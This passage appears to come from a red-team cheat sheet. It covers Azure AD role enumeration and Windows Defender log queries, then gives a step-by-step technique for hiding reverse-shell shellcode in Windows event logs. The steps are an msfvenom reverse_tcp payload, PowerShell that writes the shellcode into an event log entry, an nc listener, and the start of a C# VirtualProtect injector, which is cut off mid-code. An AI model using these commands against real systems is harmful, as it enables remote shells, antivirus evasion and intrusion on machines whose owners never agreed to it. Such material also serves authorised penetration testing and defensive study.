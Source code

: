 ```
# Get list of Azure AD management roles:
Get-MsolRole


# Show the members of each management role:
Get-MsolRole | ForEach { "`n`n" ; "-" * 30 ; $_.Name ; "-" * 30 ; Get-MsolRoleMember -RoleObjectId $_.ObjectId | ForEach { $_.DisplayName } }
```

## PowerShell:

Pull Windows Defender event logs 1116 (malware detected) and 1117 (malware blocked)
from a saved evtx file:

```
PS C:\> Get-WinEvent -FilterHashtable @{path="WindowsDefender.evtx";id=1116,1117}
```
Check for installed antivirus:

```
Get-CimInstance -Namespace root/SecurityCenter2 -ClassName AntivirusProduct
```

## Execute Payloads Utilizing Windows Event Logs:

Create variable to contain payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<> LPORT=<> -f hex
```

```
$msf = '<Insert Shellcode as Hex Literal String'
```

Convert Payload variable to hex byte array:

```
$hashByteArray = [byte[]] ($payload -replace '..', '0x$&,' -split ',' -ne '')
```

Create new event log entry:

```
Write-Event -LogName 'Key Management Service' -Source KmsRequests -EventID 31337 -EventType Information -Category 0 -Message 'Here be Dragons' -RawData $HashByteArray
```

Start your listener:

```
nc -nvlp 1337
```

Execute code injector utilizing this code:

```
using System;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace EventLogsForRedTeams
{
    class Program
    { 

    [DllImport("kernel32.dll")]
    public static extern Boolean VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, UInt32 flNewProtect,
            out UInt32 lpflOldProtect);

```